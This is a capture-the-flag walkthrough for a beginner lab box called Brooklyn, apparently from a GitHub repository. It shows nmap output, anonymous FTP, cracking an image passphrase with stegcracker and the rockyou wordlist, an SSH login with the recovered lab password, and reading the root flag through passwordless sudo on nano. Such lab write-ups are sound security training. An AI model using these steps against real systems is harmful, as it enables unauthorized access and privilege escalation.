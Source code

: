 # Brooklyn

This room is aimed for beginner level hackers but anyone can try to hack this box.  
There are two main intended ways to root the box.  


# Tasks
- Read the Userand root flag.  

# nmap

## ip = `10.10.36.221`

## Command 
```sh

 nmap -sV -sC -A -v 10.10.36.221 |tee nmap.txt
```
## Results
```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0
119 May 17 2020 note_to_jake.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| 256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_ 256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# ftp_21
Has `anonymous` log in allowed and has a text file in it.  
 
## Details

Two users  
- `Jake` = has a weak password  
- `holt` =Looks like he has some privilages  

# http_80

## To Do list
- visit he site
- View the source code
- visit robots.txt
- run gobuster

The site has an image and the source code tells us something to do with steganography.  
Download the image.  
Use the following command to crack the image passphrase.  
```sh
	stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
```
From This we get  
- user = `holt`
- password = `fluffydog12@ninenine`

# ssh_22

## Details

- users = `jake`
     	`holt`
- port 22 open
- Password for `holt` = `fluffydog12@ninenine`


Lets try ssh to holt using the following info

## ssh login

## Command 
```sh
	ssh holt@10.10.36.221	
	#password = fluffydog12@ninenine
```

## The user flag is quite clear at this point.  


# Privilage Escalation

## To Do List
- sudo -l
- cat /etc/crontab

## sudo -l
We get that we can run /bin/nano with root privilages without a password.  
I will try to read the root flag since i have the flag name format from user .txt.  

## ##Command 
```sh
 	sudo /bin/nano /root/root.txt
 ```
